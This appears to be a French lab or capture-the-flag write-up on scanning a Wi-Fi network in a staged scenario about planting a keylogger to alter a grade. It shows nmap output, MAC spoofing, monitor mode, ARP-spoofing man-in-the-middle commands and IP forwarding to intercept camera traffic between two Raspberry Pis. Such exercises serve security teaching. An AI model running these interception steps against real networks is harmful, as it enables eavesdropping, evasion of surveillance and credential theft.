


# scan du réseau

Sommaire:

1. [Avant propos](#1-avant-propos)
2. [Rappel du sujet](#2-rappel-du-sujet)
3. [Identification du réseau](#3-identification-du-reseau)
	1. [Identification des différents élements en réseau](#31-identification-des-differents-elements-en-reseau)
	2. [Identification des intéractions entre les appareils](#32-identification-des-interactions-entre-les-appareils)

## 1. Avant propos

Maintenant que nous sommes connectés au réseau WiFi, il faut scanner le réseau et identifier les différentes interactions des systèmes présents. Pour cette étape, une machine dotée d’une carte WiFi est nécessaire, de la même manière que pour la phase d’infiltration du réseau.

## 2. Rappel du sujet

***La mission est d'entrer dans la salle des 4AS (option à l'INSA CVL en STI) affaint de pouvoir brancher un Keylogger sur la machine de l'enseignant et pouvoir récupérer sont mot de passe pour pouvoir changer ça note obtenue et avoir la moyenne. Comme vous ête dans l'option 2SU, vous avez une porte qui mène directement dans la salle des 4AS, mais cette enseignant, suite à des problème entre des éleves à mis en place un système de carte surveillé par une caméra pour que seulement les profésseur puissent passer par la porte.***

***Pour que cette attaque soit indétectable, vous devez passer devant la caméra sans être vu, puis trouver un moyen de pirater le système de carte et ainsi ouvrir la porte.***

Nous avons réussi à nous connecter au réseau WiFi. Maintenant, nous devons comprendre comment les différents systèmes communiquent entre eux sans interrompre la connexion aux différents éléments, car cela serait détecté, visible avec un indicateur lumineux.

## 3. Identification du réseau

### 3.1. Identification des différents élements en réseau

Pour débuter, nous devons identifier les différents systèmes disponibles sur le réseau. Pour ce faire, nous utiliserons `nmap` pour scanner toutes les adresses IP et repérer les appareils en réseau

```bash
$ ifconfig wlan0
wlan0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST> mtu 1500
	inet 192.168.2.4 netmask 255.255.255.248 broadcast 192.168.1.7
	inet6 fe80::75c8:4e9b:cae:dfd9 prefixlen 64 scopeid 0x20<link>
	ether 60:d8:19:27:01:8a txqueuelen 1000 (Ethernet)
	RX packets 15016 bytes 5143219 (4.9 MiB)
	RX errors 0 dropped 3526 overruns 0 frame 0
	TX packets 14165 bytes 4785271 (4.5 MiB)
	TX errors 0 dropped 0 overruns 0 carrier 0 collisions 0

$
```

Nous constatons que le masque de sous-réseau que nous avons est `255.255.255.248`, ce qui permet de réduire le nombre de scans à réaliser.

La plage d’adresse IP disponible dans ce réseau est comprise entre `[ 192.168.1.1 ; 192.168.1.6 ]`. Nous pouvons donc effectuer le scan avec `nmap` de ces adresses IP.

```bash
$ nmap -Pn 192.168.1.1-6
Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-07 10:41 CET

Nmap scan report for 192.168.1.
Host is up (0.023s latency).
Not shown: 994 filtered tcp ports (no-response)
PORT     STATE  SERVICE
20/tcp   closed ftp-data
21/tcp   closed ftp
23/tcp   closed telnet
80/tcp   open   http
1723/tcp open   pptp
2869/tcp open   icslap
MAC Address: 00:18:F8:40:CF:D8 (Cisco-Linksys)

Nmap scan report for raspberrypi. ************************ (192.168.1.2)
Host is up (0.022s latency)
Not shown: 999 closed tcp ports (reset)
PORT     STATE SERVICE
8081/tcp open  blackice-icecap
MAC Address: B8:27:EB:F2:C3:79 (Raspberry Pi Foundation)

Nmap scan report for raspberrypi. ************************ (192.168.1.5)
Host is up (0.022s latency)
Not shown: 1000 closed tcp ports (reset)
MAC Address: B8:27:EB:B9:42:13 (Raspberry Pi Foundation)

$
```

Nous avons donc identifié trois appareils sur le réseau :
 - 192.168.1.1 : routeur Wifi
 - 192.168.1.2 : Raspberry PI
 - 192.168.1.5 : Raspberry PI

L’une des deux Raspberry Pi a un port ouvert, le port `8081`. Nous devons maintenant identifier la manière dont les systèmes communiquent entre eux.

### 3.2. Identification des intéractions entre les appareils

Maintenant que nous avons repéré les machines disponibles, nous pouvons identifier comment les machines interagissent entre elles. Pour ce faire, nous utiliserons `Wireshark`.

Lorsque nous utilisons directement `wireshark` pour écouter de manière passive ce qui se passe dans le réseau, nous obtenons principalement des trames `ARP`, et des trames du routeur. Ce qui nous intéresse, c’est de pouvoir visualiser la communication entre les deux Raspberry Pi. Pour cela, nous allons modifier notre approche de l’écoute du réseau,
passant d’une écoute passive à une écoute semi-active.

Pour ce faire, nous devons mettre notre carte réseau WiFi en mode moniteur. Nous pouvons également en profiter pour changer l’adresse MAC de notre carte réseau :

```bash
$ ifconfig wlan0 down
$ macchanger -r wlan0
Current MAC:   60:d8:19:27:01:8a (Hon Hai Precission Ind. Co., Ltd.)
Permanent MAC: 60:d8:19:27:01:8a (Hon Hai Precission Ind. Co., Ltd.)
New MAC:       de:28:71:0e:16:29 (unknown)
$ iwconfig wlan0 mode Monitor
$ ifconfig wlan0 up
$ ifconfig wlan0
wlan0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST> mtu 1500
	inet 192.168.2.6 netmask 255.255.255.248 broadcast 192.168.1.7
	inet6 fe80::75c8:4e9b:cae:dfd9 prefixlen 64 scopeid 0x20<link>
	ether de:28:71:0e:16:29 txqueuelen 1000 (Ethernet)
	RX packets 15016 bytes 5143219 (4.9 MiB)
	RX errors 0 dropped 3526 overruns 0 frame 0
	TX packets 14165 bytes 4785271 (4.5 MiB)
	TX errors 0 dropped 0 overruns 0 carrier 0 collisions 0
$
```

De cette manière, nous avons changé notre adresse `MAC` et mis la carte réseau en mode moniteur.

Avant de pouvoir réutiliser `Wireshark`, , nous allons effectuer une attaque `Man In The Middle` entre les deux Raspberry Pi pour intercepter tous les paquets échangés. Pour ce faire, nous aurons besoin de deux terminaux.

```bash
# Premier terminal
$ arpspoof -i wlan0 -t 192.168.1.2 192.168.1.5
```

```bash
# Second terminal
$ arpspoof -i wlan0 -t 192.168.1.5 192.168.1.2
```

Cela consiste à envoyer des requêtes `ARP` aux deux Raspberry Pi, de sorte que lorsqu’elles communiquent entre elles, elles doivent passer par l’adresse `MAC` de notre machine. Cela nous permet de récupérer tous les paquets échangés entre les deux machines. Cependant, si nous exécutons uniquement cette étape, la Raspberry Pi avec les voyants lumineux
détectera un problème dans le réseau.


Cela est dû au fait que notre machine récupère les paquets, mais ne les redirige pas. Pour résoudre ce problème, il faut activer l'`IP forwarding` avec la commande suivante:

```bash
$ echo 1 > /proc/sys/net/ipv4/ip_forward
$
``` 

Ainsi, nous pouvons désormais écouter les communications entre les deux machines sans avoir de coupure réseau entre les Raspberry Pi.

Nous pouvons maintenant utiliser  `Wireshark`



Dans cette capture réseau, nous pouvons identifier que la Raspberry Pi `192.168.1.5` effectue des requêtes `TCP` sur le port `8081` en direction de la Raspberry Pi `192.168.1.2`. Nous pouvons donc suivre une requête en effectuant un `click droit` sur celle-ci, puis en sélectionnant `suivre`, et enfin `Flux TCP`. De cette manière, nous obtenons le contenu de la communication qui s’est effectuée.



Nous pouvons déduire que `192.168.1.5` effectue une requête `HTTP` vers `192.168.1.2`  via un script Python. La réponse de `192.168.1.2` contient `Content-type: image/jpeg` dans les métadonnées `HTTP`, ce qui nous permet de conclure que c’est ainsi que `192.168.1.5` récupère l’image de la caméra et effectue la détection de présence.

Afin de passer devant la caméra sans être détecté, il est nécessaire de modifier le trafic de manière à ce que l’image soit constante, empêchant ainsi la détection de présence basée sur le flux de la caméra
